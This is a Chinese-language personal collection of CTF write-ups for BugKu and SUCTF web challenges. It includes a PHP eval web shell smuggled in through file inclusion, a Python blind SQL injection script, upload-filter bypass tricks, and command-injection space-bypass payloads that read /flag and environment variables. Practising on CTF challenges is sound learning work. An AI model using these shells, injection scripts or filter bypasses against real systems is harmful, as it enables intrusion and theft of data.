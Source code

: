 ```yaml
---
title: 错题wp集
toc: true
date: 2021-04-22 14:57:37
tags: CTF
categories: [100 Cyber security, 120 CTF, 121 Web ]
---
```



#### SUCTF 2019 EasySQL
https://blog.csdn.net/qq_43619533/article/details/103434935
    *  考点： 通过输入非零数字得到的回显1和输入其余字符得不到回显来判断出内部的查询语句可能存在有||
#### BugKu web 21
https://blog.csdn.net/qq_41333578/article/details/92759619
    *  考点： 弱比较的绕过; PHP伪协议php://input如何输入请求主体; eregi绕过的两种方式; 注意`\x00`会截断后续内容，而%00不会。
#### BugKu 冬至红包
https://blog.csdn.net/qq_46230755/article/details/112973722
    *  考点： 新姿势
#### BugKu web18
https://ctf.bugku.com/challenges/detail/id/85.html
    *  考点：爬虫复习、利用eval()直接计算string内的数字公式、利用同一个Session进行get和post请求，防止网页动态刷新计算值失效、post请求中data注意格式为{‘somevtext’：’somevalue’}、python和PHP的计算方式不太一样，可能存在计算偏差导致得不到flag，需要重复发送几次。
    ```
import requests
from bs4 import BeautifulSoup

url = 'http://114.67.246.176:14925/'

s = requests.session()

r = s.get(url)
# 这里要根据网页的编码来设置解码，这个目标网站编码为'utf-8'
r.encoding = 'utf-8'
soup=BeautifulSoup(r.text,'lxml')
data=soup.select('div')
for item in data:
    #获取原文为804134448*284526014-53361872*1933492032+466213037-393751154*4253881+1224286171-1203351395*1548147628+1689398514=?;
    result=item.get_text()

result1=result[0:len(result)-3] #去掉后三位‘=?;’

result2 = eval(result1) #计算数值

result3={'value':result2} #添加post请求数据格式

mssg=s.post(url, data=result3) #利用同一个session，防止网页刷新。

print(mssg.text)
    ```
#### BugKu Web 32
题目：文件上传;My name is margin,give me a image file not a php

* 解题思路：文件上传漏洞，掏出上传fuzz试试看。
  fuzz没过，看评论说是把multipart/form-data;修改成Content-Type: mulTipart/form-data; ，然后修改php文件为php4，竟然还有这种操作，学到了。

#### BugKu Web 33
提示：
```
Flag:{xxx}
fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA=
 // }l.&W'EG*B(W[(+G'U-0
```
题目：
```
<?php
function encrypt($data,$key)
{
    $key = md5('ISCC');
    $x = 0;
    $len = strlen($data);
    $klen = strlen($key);
    for ($i=0; $i < $len; $i++) {
        if ($x == $klen)
        {
            $x = 0;
        }
        $char .= $key[$x];
        $x+=1;
    }
    for ($i=0; $i < $len; $i++) {
        $str .= chr((ord($data[$i]) + ord($char[$i])) % 128);
    }
    return base64_encode($str);
}
?>
```

* 解题思路：在线解base64的时候还没注意到，复制下来才发现还有特殊字符。`.=`连接赋值运算符，将右边参数附加到左边的参数之后。完整的看了一遍代码，发现应该是得到提示的base64字符串的算法。懒得配环境，对PHP一直是只会读代码不会写应用的状态，干脆在网上找了找PHP在线运行网站。试着运行了一下原算法用不同的数字和字母输入data内容。
根据提示中的base64推断，data长度为20。
逆推写了一下获取data的源码：
```
<?php
$str='fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA=';
$str_decode = base64_decode($str);
$len1=strlen($str_decode);

$key = md5('ISCC');  # 729623334f0aa2784a1599fd374c120d
$klen = strlen($key);
$char = '';
$data = '';
for ($i=0; $i < $len1; $i++) {
        if ($x == $klen)
        {
            $x = 0;
        }
        $char .= $key[$x]; # 729623334f0aa2784a1599fd374c120d729623
        $x+=1;
    }
# print($len1); -> 38
# print($char); -> 729623334f0aa2784a1599fd374c120d729623
for ($i=0; $i < $len1; $i++) {
        $data .= chr((ord($str_decode[$i])+128)-ord($char[$i]));
    }
print($data);    
?>
```
得到结果：lag{asdqwdfasfdawfefqwdqwdadwqadawd}，提示里写了Flag:{xxx}，所以把结果改成Flag:{asdqwdfasfdawfefqwdqwdadwqadawd}，结果正确。

#### BugKu Web 34
提示：文件包含

* 解题思路：既然是文件包含，一开始上来就先试试file=php://input(<?php phpinfo();?>)，提示NAIVE，不管，反正方向是对了，开burp传包才看到这个页面有个隐藏的upload.php，点进去发现是个上传点。结合apache的版本和PHP版本，没啥直接上传shell利用的机会。那就只能上传成jpg的格式，然后用文件包含去利用。http://114.67.246.176:14764/index.php?file=upload/202105140715558770.jpg，打开之后发现提示`_ @eval($_POST['shell']);_`，显然是过滤了<?php?>，换成<script>。`<script language=php>echo 'a'; eval($_POST['pass']);</script>`
这题不错，把我一直以来没有联合使用的两种手法彻底试了试。

#### BugKu Web 36
提示： !,!=,=,+,-,^,%
      全都过滤了绝望吗？

* 解题思路：先跑bp看看关键词屏蔽情况，or和空格过滤了，--也过滤了，替代or的||也未曾幸免,()没有过滤。参考提示，!,!=,=,+,-,^,% （构造的url转码注入）没有被过滤，那么用+替代空格，利用！=构造用户名注入，`amdin'+‘1’！=‘2`，返回`password error`，也就是说这个绕过成功但没有注释掉密码。
这里照抄WP的盲注：ref https://wxt123.top/2021/01/22/Bugku%20Web%E6%80%BB%E7%BB%93(%E6%8C%81%E7%BB%AD%E6%9B%B4%E6%96%B0ing)/#Web-36
```
# -*- coding: utf-8 -*-
import requests

session = requests.Session()
url="http://114.67.246.176:12012/login.php"
flag=''
for i in range(1,250):
        left=32
        right=128
        mid=(left+right)//2
        while(left<right):
                payload="admin'^((ascii(mid((select(group_concat(passwd)))from(%s)))>%s))^'1"%(i,mid)
                data = {'uname': payload, 'passwd': 'admin'}
                res = requests.post(url, data=data)
                if 'password' in res.text:
                        left=mid+1
                else:
                        right=mid
                mid=(left+right)//2
        if(mid==32 or mid==127):
                break
        flag=flag+chr(mid)
        print(flag)
```
进去之后是个命令执行框，这里要怒翻文件包含里记下的笔记，利用<代替空格，cat</flag，（加.php会被过滤）
再记几个可以用的方式：
    * env :用于输出系统环境变量，这道题中系统环境变量中有flag；
    * {echo,$FLAG}：也是输出系统环境变量，但是只输出$FLAG一个变量
    * {cat,/flag}：绕过空格限制，读取根目录下flag文件；
    * cat</flag：绕过空格限制，
    * cat<>/flag：绕过空格限制；
    * a=$‘\x20/flag’&&cat$a：\x20转换为字符串就是空格;
再做个关于fuzz后台登录密码的注入笔记：
    * 判断密码长度：uname=admin'^(length(passwd)=32)^'，逐一递增，并根据32位猜测密码为MD5。
    * 判断密码每一位字符：uname=admin'^(ascii(substr((passwd)from(1))=52)^'
